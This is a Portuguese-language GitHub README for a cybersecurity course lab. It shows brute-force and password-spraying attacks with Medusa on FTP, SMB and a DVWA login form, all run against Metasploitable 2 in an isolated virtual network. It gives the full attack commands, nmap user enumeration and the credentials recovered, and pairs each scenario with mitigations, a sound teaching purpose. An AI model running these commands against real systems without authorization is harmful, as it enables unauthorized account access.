







# 🛡️ Brute Force Lab — Kali Linux + Medusa

Projeto prático do curso de Cibersegurança da DIO, simulando ataques de força bruta em ambiente controlado e isolado, utilizando Kali Linux, Medusa e Metasploitable 2.

> ⚠️ **Aviso Legal:** Todos os testes foram realizados exclusivamente em ambiente isolado e controlado (rede Host-Only, sem conexão externa), com fins exclusivamente educacionais. Nunca execute esses testes em sistemas sem autorização explícita — isso é crime previsto na Lei nº 12.737/2012 (Lei Carolina Dieckmann) e na Lei Geral de Proteção de Dados.

---

## 🛠️ Ferramentas Utilizadas

- **Kali Linux** — Sistema operacional para testes de segurança
- **Metasploitable 2** — VM vulnerável usada como alvo
- **Medusa** — Ferramenta de auditoria de força bruta
- **DVWA** — Aplicação web vulnerável para testes
- **Nmap** — Scanner de rede e enumeração de serviços
- **VirtualBox** — Virtualização das máquinas

---

## Configuração do Ambiente

Duas VMs configuradas no VirtualBox com rede Host-Only (isolada), garantindo que os testes não saiam do ambiente controlado.

- **Kali Linux** → máquina atacante
- **Metasploitable 2** → máquina alvo

### Identificando o IP do alvo

Comando executado no Metasploitable 2:
ifconfig

> IP identificado: **192.168.56.101**

### Verificando conectividade entre as VMs

Comando executado no Kali Linux:
ping -c 4 192.168.56.101

> 4 pacotes enviados, 4 recebidos, 0% de perda — ambiente funcionando corretamente. ✅

---

## Cenário 1 — Força Bruta em FTP

### Objetivo

Descobrir credenciais válidas do serviço FTP rodando no Metasploitable 2 usando o Medusa.

### Wordlists utilizadas

- `wordlists/user.txt` → lista de usuários de teste
- `wordlists/pass.txt` → lista de senhas de teste

### Comando executado
medusa -h 192.168.56.101 -U wordlists/user.txt -P wordlists/pass.txt -M ftp -t 6
### Resultado

O Medusa encontrou a credencial válida:

| Usuário  | Senha    | Status    |
| -------- | -------- | --------- |
| msfadmin | msfadmin | ✅ SUCCESS |

O acesso foi validado conectando diretamente via FTP:
ftp 192.168.56.101
> Retorno: **230 Login successful** — acesso confirmado. ✅

### Mitigação

- Limitar tentativas de login por IP (bloqueio após X tentativas)
- Substituir FTP por SFTP (protocolo seguro e criptografado)
- Usar senhas fortes e únicas, nunca iguais ao nome de usuário
- Implementar autenticação por chave SSH

---

## Cenário 2 — Password Spraying em SMB

### Objetivo

Enumerar usuários do serviço SMB e realizar password spraying para descobrir credenciais válidas.

### Etapa 1 — Enumeração de usuários com Nmap

nmap -p 445 --script smb-enum-users 192.168.56.101

> O Nmap listou diversos usuários do sistema, como: `backup`, `bin`, `daemon`, `ftp`, `msfadmin`, entre outros.

### Etapa 2 — Ataque de Password Spraying com Medusa

medusa -h 192.168.56.101 -U wordlists/user.txt -P wordlists/pass.txt -M smbnt -t 2 -T 50

### Resultado

| Usuário  | Senha    | Status             |
| -------- | -------- | ------------------ |
| msfadmin | msfadmin | ✅ SUCCESS (ADMIN$) |

### Mitigação

- Desativar SMBv1 (protocolo legado e vulnerável)
- Bloquear porta 445 no firewall para acesso externo
- Usar senhas complexas — nunca iguais ao nome de usuário
- Monitorar logs de autenticação para detectar tentativas em massa

---

## Cenário 3 — Força Bruta em Formulário Web (DVWA)

### Objetivo

Automatizar tentativas de login no formulário web do DVWA usando o Medusa.

### Configuração

- DVWA acessado via navegador no Kali Linux
- Nível de segurança configurado em: **Low**
- Página alvo: `http://192.168.56.101/dvwa/login.php`

### Tela de login do DVWA

### Wordlists utilizadas

- `wordlists/user.txt` → lista de usuários
- `wordlists/pass.txt` → lista de senhas

### Comando executado

medusa -h 192.168.56.101 -U wordlists/user.txt -P wordlists/pass.txt -M http 
-m PAGE:'/dvwa/login.php' 
-m FORM:'username=^USER^&password=^PASS^&Login=Login' 
-m 'FAIL=Login failed' -t 6

### Resultado

| Usuário  | Senha    | Status    |
| -------- | -------- | --------- |
| msfadmin | password | ✅ SUCCESS |
| msfadmin | e-123456 | ✅ SUCCESS |
| admin    | password | ✅ SUCCESS |
| root     | e-123456 | ✅ SUCCESS |

### Mitigação

- Implementar CAPTCHA no formulário de login
- Bloquear IP após tentativas excessivas (rate limiting)
- Usar autenticação de dois fatores (2FA)
- Implementar tempo de espera progressivo entre tentativas

---

## Aprendizados

- Compreendi na prática como funcionam ataques de força bruta em diferentes serviços (FTP, SMB e Web)
- Aprendi a utilizar o Medusa para auditoria em ambiente controlado
- Entendi como wordlists afetam diretamente o resultado dos ataques
- Reconheci vulnerabilidades comuns e suas respectivas mitigações
- Documentei processos técnicos de forma clara e estruturada
- Utilizei o GitHub como portfólio técnico para compartilhar documentação e evidências

---

## 📁 Estrutura do Repositório
brute-force-lab-medusa/
├── README.md
├── wordlists/
│   ├── user.txt
│   └── pass.txt
└── images/
├── ifconfig-metasploitable.png
├── ping-conectividade.png
├── medusa-ftp-resultado.png
├── nmap-smb-enum.png
├── medusa-smb-spray.png
├── dvwa-login-form.png
└── medusa-dvwa-resultado.png
---

## 🔗 Referências

- [Kali Linux — Site Oficial](https://www.kali.org)
- [DVWA — Damn Vulnerable Web Application](https://dvwa.co.uk)
- [Medusa — Documentação](http://foofus.net/goons/jmk/medusa/medusa.html)
- [Nmap — Manual Oficial](https://nmap.org/book/man.html)

## 👨‍💻 Autor

Desenvolvido por **Pedro H. Caputo** como projeto prático do curso de Cibersegurança — [DIO](https://www.dio.me).

[LinkedIn](https://linkedin.com/in/pedro-caputo)
